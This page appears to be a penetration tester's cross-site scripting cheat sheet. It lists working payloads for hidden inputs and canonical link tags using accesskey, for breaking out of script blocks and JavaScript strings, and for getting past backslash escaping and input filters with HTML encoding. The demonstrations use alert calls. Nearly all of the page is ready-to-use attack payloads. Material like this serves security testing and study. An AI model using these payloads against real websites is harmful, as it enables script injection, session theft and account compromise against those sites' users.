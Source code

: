 * Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible

```html
<input type="hidden" accesskey="X" onclick="alert(1)">
```

```html
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

{% hint style="info" %}
**Tips**:

* Substitute `'` `"` and viceversa
* Space is not needed

```html
<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
```
{% endhint %}

```html
<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
```

### <mark style="color:purple;">Into JavaScript</mark>

**Terminating the existing script**

The browser interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.

```html
<script>
...
var input = 'controllable data here';
...
</script>
```

```html
<!-- Payload -->
</script><img src=1 onerror=alert(document.domain)>
```

***

**Breaking out of a JavaScript string**

* It's essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing

```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

* Some applications try to escape single quote characters with a backslash but often forget to escape the backslash itself.
  * `';alert(document.domain)//` is converted to `\';alert(document.domain)//`&#x20;
  * so your input could be `\';alert(document.domain)//` which gets converted to `\\';alert(document.domain)//`
* Making use of HTML-encoding
  * When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around input filters.
    * `<a href="#" onclick="... var input='controllable data here'; ...">`
    * `&apos;-alert(document.domain)-&apos;`
    * The browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted
    * HTML encode: https://html.spec.whatwg.org/multipage/named-characters.html
